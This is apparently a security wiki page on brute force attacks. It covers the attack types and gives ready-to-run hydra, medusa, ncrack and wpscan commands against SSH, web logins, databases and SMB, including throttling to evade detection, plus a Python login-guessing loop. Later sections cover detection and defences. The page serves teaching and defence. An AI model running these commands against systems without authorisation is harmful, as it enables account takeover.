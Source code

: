 # Brute Force Attack

## Overview
A brute force attack is a trial-and-error method used to obtain information such as a user password or personal identification number (PIN) by systematically checking all possible combinations until the correct one is found.

## Types of Brute Force Attacks

### 1. Simple Brute Force
- **Method**: Try all possible combinations systematically
- **Target**: Short passwords, PINs
- **Time**: Can be very slow for long passwords

### 2. Dictionary Attack
- **Method**: Use common passwords and word lists
- **Target**: Weak passwords based on common words
- **Efficiency**: Much faster than simple brute force

### 3. Hybrid Attack
- **Method**: Combine dictionary words with numbers/symbols
- **Example**: password123, admin2024!
- **Target**: Passwords with predictable patterns

### 4. Reverse Brute Force
- **Method**: Use one common password against many usernames
- **Target**: Systems with common default passwords
- **Example**: admin/admin, root/toor

### 5. Credential Stuffing
- **Method**: Use leaked username/password combinations
- **Target**: Users who reuse passwords across services
- **Source**: Data breaches, credential dumps

## Common Targets

### Authentication Services
```bash
# SSH brute force
hydra -L users.txt -P passwords.txt ssh://target-ip

# FTP brute force  
hydra -L users.txt -P passwords.txt ftp://target-ip

# HTTP basic auth
hydra -L users.txt -P passwords.txt http-get://target-ip/admin
```

### Web Applications
```bash
# Login forms
hydra -L users.txt -P passwords.txt target-ip http-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# WordPress
wpscan --url http://target.com --usernames users.txt --passwords passwords.txt
```

### Database Services
```bash
# MySQL
hydra -L users.txt -P passwords.txt mysql://target-ip

# MSSQL
hydra -L users.txt -P passwords.txt mssql://target-ip
```

### Network Services
```bash
# SMB/CIFS
hydra -L users.txt -P passwords.txt smb://target-ip

# Telnet
hydra -L users.txt -P passwords.txt telnet://target-ip
```

## Tools and Techniques

### Hydra
```bash
# Basic syntax
hydra -l username -P wordlist.txt service://target

# Multiple usernames and passwords
hydra -L users.txt -P passwords.txt service://target

# Throttling to avoid detection
hydra -L users.txt -P passwords.txt -t 4 -W 30 ssh://target
```

### Medusa
```bash
# Similar to Hydra
medusa -h target -U users.txt -P passwords.txt -M ssh

# With specific options
medusa -h target -u admin -P passwords.txt -M http -m DIR:/admin
```

### Ncrack
```bash
# SSH brute force
ncrack -p 22 --user root -P passwords.txt target-ip

# Multiple protocols
ncrack ssh://target:22 ftp://target:21 -U users.txt -P passwords.txt
```

### Custom Scripts
```python
import requests
import sys

def brute_force_login(url, usernames, passwords):
    for username in usernames:
        for password in passwords:
            data = {'username': username, 'password': password}
            response = requests.post(url, data=data)
            
            if "Invalid" not in response.text:
                print(f"Success: {username}:{password}")
                return username, password
    return None, None
```

## Wordlists

### Common Wordlists
```bash
# Rockyou - Most popular
/usr/share/wordlists/rockyou.txt

# SecLists
/usr/share/seclists/Passwords/Common-Credentials/

# Custom wordlist generation
crunch 8 12 -f charset.lst mixalpha-numeric > passwords.txt
```

### Username Lists
```bash
# Common usernames
admin, administrator, root, user, test, guest, demo, service

# Generate from company info
./username-anarchy -i names.txt > usernames.txt
```

## Detection and Monitoring

### Log Analysis
```bash
# SSH failed attempts
grep "Failed password" /var/log/auth.log

# Web server logs
grep "POST /login" /var/log/apache2/access.log | grep "401"

# Windows Event Logs - Event ID 4625 (failed logon)
```

### Rate-based Detection
- **Multiple failed attempts** from same IP
- **Unusual login patterns** outside business hours
- **Geographic anomalies** in login locations
- **High volume** of authentication requests

## Defense Mechanisms

### Account Policies
```bash
# Account lockout after failed attempts
- Lockout threshold: 5-10 attempts
- Lockout duration: 15-30 minutes
- Reset counter: After successful login
```

### Rate Limiting
```nginx
# Nginx rate limiting
limit_req_zone $binary_remote_addr zone=login:10m rate=1r/s;

location /login {
    limit_req zone=login burst=5 nodelay;
}
```

### Strong Password Policies
- **Minimum length**: 12+ characters
- **Complexity requirements**: Upper, lower, numbers, symbols
- **Password history**: Prevent reuse of last 12 passwords
- **Regular rotation**: Every 90 days for sensitive accounts

### Multi-Factor Authentication (MFA)
- **Something you know**: Password
- **Something you have**: Token, phone
- **Something you are**: Biometrics

### Monitoring and Alerting
```python
# Example alert script
def check_failed_logins():
    failed_count = get_failed_login_count()
    if failed_count > THRESHOLD:
        send_alert(f"Brute force detected: {failed_count} failures")
        block_ip(source_ip)
```

## Related Topics
- [[Hydra]]
- [[Password cracking]]
- [[Multi-factor authentication]]
- [[Account lockout policies]]
- [[Rate limiting]]
- [[Web application security]]
